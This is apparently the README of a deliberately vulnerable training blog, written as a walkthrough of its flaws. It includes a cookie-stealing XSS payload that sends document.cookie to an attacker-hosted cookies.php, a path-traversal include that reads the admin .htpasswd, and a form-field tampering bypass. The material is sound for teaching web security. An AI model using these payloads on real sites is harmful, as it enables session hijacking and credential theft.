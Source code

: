 # Fake blog to hack for newbie training

## Overview

This is a fake blog that has many kinds of web vulnerabilities. This is usefull because it can be use to teach to newbies that web vulnerabilities exist and can be very damaging.

## Warning

It can be installed on a typical LAMP installation. You MUST NOT installed it on a production server or any server or network that should not be compromised. REMEMBER that the vulnerabilities on this application are REAL VULNERABILITIES. I am NOT RESPONSIBLE for what you do with it. 

## How to install it

The `blog_hack/` directory or the content of it have to be downloaded to your Apache `www` directory. Often, it is located to `/var/www/` on GNU/Linux system. 

You should edit the `blog_hack/init.php` file with your MySQL information. The default password of the admin user is `salut123`.

The `blog_hack/admin` directory has an `.htpasswd` file. The `admin` user password is `admin`. If you want to modify it, you must encrypt it if you are on GNU/Linux because Apache force to do so.

## How to use it

Here is a list of all vulnerabilities on this blog. If you don't want to know them because you want to discover them by yourself, you should stop reading this right now and begin to play with the application. Remember, you're not supposed to know the default credentials mentionned above.

### Form validation vulnerability

First of all, there is a form validation vulnerability in the subscription form. What you have to do is to submit the first form with "Level 1" account and then you arrive on a second page which is a hidden form. If you check the source, you'll see that there is a `type` field and a `total` field. So if you check in the first form for the values, you'll see that the value for the level 2 is 2. But here's the trick, you have to modify the `type` field in the second form with a value of 3 instead of 1 or 2 and you must not modify the `total` field because, in the validation, only the `total` field is validated but not the `type` field but what's inserted in the DB is the `type` field. Then, you submit the hidden form. You normally should be able to comment on blog article.

### XSS vulnerability

A XSS (means Cross-site scripting) vulnerability is a vulnerability that permits the user to inject some Javascript in a web page. Mainly, if you discover a XSS in a web site, you're able to steal user cookies, use them to connect to the web site as them and having access of all information that the user has access.

#### Non-persistent XSS

In the blog members list, you can search for members on the web site. If you enter quotes in the search field, you can end the html input tag and begin a script tag.

In the root directory of this repo, there is a `cookies.php` file and a `cookies.html` file. You have to download these 2 files to the web server of your choice. You can choose the same web server that you put the `blog_hack` site. Basically, what the `cookies.php` file does is to take a GET request with a parameter named `c` and writes it to the `cookies.html` file. You have to be sure that the `cookies.php` script has rights to write to the `cookies.html` file. I don't know the exact right that these files need to have so you can do a `chmod 777 cookies.php cookies.html` to be sure. You also can do that via FTP if you want.

So, all is in place. Let's the hacking begin! The goal of the manipulations here is to create an URL to send to a user that will redirect him to the `cookies.php` file with his cookie in the `c` parameter. Here is what you have to enter in the search field: `"> <script>document.location = "http://yourdomain/your/path/cookies.php?c=" %2b document.cookie;</script>`. The `%2b` is simply url encoded version of the `+` character; if we don't url encode it, it will be replaced by a space by your web browser if you enter it in the URL bar instead of the search field. If you enter it in your browser, you'll send your own cookies to you. Normally, the goal is to send an URL that contains this search to a user but this is not covered in this demonstration.

#### Persistent XSS

A persistent XSS is exactly the same as a non-persistent XSS except that the persistent XSS is inserted in a DB and all user that arrive on a certain page will be victim of the XSS. So, there is a persitent XSS in the comment section of each blog entry. The exploit technique is absolutly the same except you don't have to send a URL to a user and just wait that someone came to the page.

### File inclusion vulnerability

File inclusion vulnerabilities are vulnerabilities that can able an attacker to include a file not supposed to be include in the page. A classic example of this vulnerablity is a web site that take a parameter `page` in the URL to show the good page to the client. The URL usually looks like `http://mywebsite.com/index.php?page=home.php`. So, if the developper didn't secure his function, it is possible to include many files often on the server itself. More rarely, you could be able to include an external file and then execute the content of this file by PHP so doing what you want on the server.

So, what do we have here? There is a `page` parameter. If you try to write anyting else in this parameter, you'll see that the `.php` is added at the end of the include function. It's not very convenient. Also, you can notice that you're not able to include external files because the include file begin with `./include/`. But, if we look for vulnerabilities in the include function of PHP, we'll find that `include` had a vulnerability, in old version of PHP, that permitted to skip the end of the include string by inserting a NULL byte in the string because PHP stopped reading the string if it read a NULL byte. 

So now, we know we can possibly\* include any files on the web server if the user that executes PHP has the right to read these. Of course, if the system administrators are very dump, we could read the `/etc/shadow` and `/etc/passwd` files. But let's suppose they're not for the case here. If you do some tests on the website, you may have discovered there is a `admin/` URL with a username and a password. So, to discover what are the credentials, we use the file inclusion vulnerability we discovered and we do an URL like this: `index.php?page=../admin/.htpasswd`. And boom, we now have a hashed version of the admin user password. You can now use any tool that crack hashes and will discover that the password is `admin`.

To explain the URL, the first two dots (`../`) are there because if you remember the include string was begining with `./include/` so we need to come back because we want to go in the `./admin/` directory and not the `./include/admin/` directory. Finally, the `.htpasswd` file is the standard file for Apache HTTP password configuration (Htaccess).

\* In this case, this vulnerability is simulated. This is the only simulated vulnerability because this vulnerability has already existed but is not anymore available.



